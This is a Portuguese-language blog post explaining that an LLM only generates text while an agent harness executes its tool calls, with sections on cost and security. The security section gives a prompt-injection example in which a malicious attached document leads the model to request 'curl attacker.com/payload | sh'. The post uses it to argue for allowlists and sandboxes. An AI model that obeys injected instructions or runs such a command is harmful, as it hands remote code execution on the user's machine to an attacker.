



Quando você pediu pro Claude criar um arquivo no seu computador, ele não criou. Você acha que criou. Mas não foi ele. Foi outra coisa. E não saber disso é o que faz times pagarem 5x mais do que deveriam por IA em produção e abrirem buraco de segurança que dá execução remota de código com 1 prompt malicioso.

Essa é a confusão mais comum de 2026, e eu vejo ela em todo lugar, inclusive em gente sênior. É o conceito que separa quem está raciocinando sobre IA de quem está repetindo bullshit de LinkedIn.

## As duas coisas que ninguém separa

Existem duas peças distintas quando você usa Claude Code, Codex, Cursor, ou qualquer ferramenta de IA agêntica:

- **O modelo (LLM):** arquivo de pesos de vários gigabytes carregado na GPU. Só gera texto. Nunca cria arquivo. Nunca roda comando. Nunca acessa internet. Sozinho, é um motor desligado em cima da mesa.
- **O harness:** programa que conversa com a LLM. Executa as ações que ela pede. Cria arquivo, roda teste, instala pacote, abre branch, faz push. Sem harness, a LLM só fala.

Como funciona o loop na prática quando você pede "crie um site":

1. O harness manda o pedido pra LLM via API (junto com instruções escondidas do system prompt).
2. A LLM responde em formato estruturado, tipo `create_file("index.html", "<html>...</html>")`.
3. O harness recebe isso, executa a função, cria o arquivo na sua máquina.
4. O harness devolve pra LLM: "arquivo criado, próximo passo?".
5. A LLM responde: "agora crie style.css...".
6. Loop continua até a LLM dizer "terminei".

A LLM nunca tocou no seu disco. Só o harness toca.

## A analogia do cavalo e da rédea

> "Harness é a rédea que você coloca no cavalo pra controlar. Sem rédea, o cavalo vai pra onde quiser." Akita.

Outra forma de pensar: o modelo é o motor, o harness é o resto do carro. Motor sem carro só faz barulho. Carro sem motor não anda. Os dois juntos formam o veículo. Falar de um sem o outro é falar de meia coisa.

A LLM sozinha é o GPT no browser te dando texto. Boa pra responder pergunta. Inútil pra agir.

## Por que isso importa pro seu bolso

Em junho de 2026, Claude Opus 4.6 e GPT 5.4 estão em empate técnico no modelo. Ambos resolvem código bem. Ambos têm raciocínio comparável. Os benchmarks objetivos estão se aproximando.

Então por que Claude Code bate Codex hoje em código de produção? Porque o harness do Claude é melhor: mais disciplinado (termina tarefas paralelas sem perder o fio), organiza melhor planos longos (não esquece passo 3 quando chega no 7), documenta o que fez no final (CLAUDE.md, mensagens de commit estruturadas).

A OpenAI pode igualar amanhã sem treinar modelo novo. É só engenharia de software no Codex.

Implicação prática: quem compara só modelo está olhando metade da equação. "Claude é melhor que GPT" geralmente significa "Claude Code é melhor que Codex". Quando aparece Open Code (harness open source) plugando modelo Claude, vai funcionar, mas perde qualidade, porque o Claude foi treinado pro formato de tool calling da Anthropic e o Open Code talvez fale outro formato. A regra prática vira: modelo Claude usa Claude Code, modelo GPT usa Codex, modelo Gemini usa Antigravity. Modelo e harness vêm em par.

Custo direto: harness ruim manda contexto inteiro a cada chamada. Harness bom usa prompt caching, lazy loading de skills, sub-agents pra isolar contexto. Eu medi isso no meu próprio pipeline de notícias: ligar prompt caching cortou 75% do custo de prefixo (contei essa história no post de quinta). Diferença em pipeline de produção: fator 3 a 10x no custo mensal de inference. Não é exagero. É contábil.

## Por que isso importa pra sua segurança

O harness é quem tem permissão de escrever em disco, instalar pacote, fazer push pra git, abrir conexão de rede. A LLM não tem essas permissões. Ela pede, o harness executa.

Se o harness não tem allowlist clara do que pode rodar, prompt injection vira execução de código arbitrário. Um documento malicioso anexado ao chat instrui a LLM a chamar `bash("curl attacker.com/payload | sh")`. Sem proteção, o harness obedece. A LLM não tem culpa. Ela só passou a mensagem.

Isso é o que diferencia harness sério (Claude Code com sandbox de tool, Anthropic Computer Use com permission scope) de harness frouxo (qualquer agente que dá acesso shell sem allowlist). Quem entende a separação modelo-harness avalia esse risco. Quem não entende pensa que "a IA executou o ataque" e culpa o modelo errado.

## Skills, agents, MCP: tudo é harness ficando mais sofisticado

A indústria de IA fala muito em skill, agent, sub-agent, MCP, tool calling, prompt caching, context window. Tudo isso é o harness ficando mais inteligente. A LLM continua a mesma coisa por baixo: gera texto.

- **Skill** é um arquivo `.md` de instruções carregado quando o contexto bate. É harness reutilizando prompt.
- **Agent** é skill mais permissão mais janela de contexto isolada. É harness mais sofisticado.
- **MCP (Model Context Protocol)** é o padrão pra harness conectar com ferramenta externa de forma uniforme. É harness padronizando integração.

Eu uso essa arquitetura todos os dias: o post que você está lendo passou por um harness. A pipeline deste blog roda em cima de skills e sub-agents que eu mantenho, e a LLM por trás nunca tocou no repositório. Tudo que parece mágica é o harness ficando mais inteligente. A LLM continua imutável entre uma chamada e outra.

## Quem confunde, perde dinheiro e segurança

Quem confunde modelo e harness não consegue raciocinar sobre custo, segurança ou debug. Vai pagar mais pelo modelo errado pelo motivo errado, e vai dar permissão demais pro harness por não entender o que cada um faz.

Quem entende compra a ferramenta certa pelo motivo certo, paga só o que precisa pagar, e não dá tiro no pé com escopo aberto.

Próxima vez que você ler "a IA criou", traduza: o harness executou o que a LLM pediu. A diferença muda tudo.

---

**Newsletter VazDEng.** Toda terça, quinta e sábado sai post novo de engenharia de dados em português, padrão sênior, sem hype.

**Assina aqui:** [vazdeng.substack.com](https://vazdeng.substack.com).
